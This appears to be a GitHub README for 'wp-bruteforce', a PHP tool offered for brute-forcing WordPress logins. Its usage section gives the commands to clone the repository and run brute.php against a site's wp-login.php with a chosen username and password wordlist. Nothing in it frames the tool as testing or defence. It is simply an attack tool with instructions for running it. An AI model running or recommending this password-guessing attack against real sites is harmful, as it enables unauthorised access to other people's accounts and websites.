 # wp-bruteforce
Simple Code For Wordpress Brute Force

# Usage?
git clone https://github.com/momos1337/wp-bruteforce
cd wp-bruteforce
php brute.php http://website.com/wp-login.php username wordlist.txt
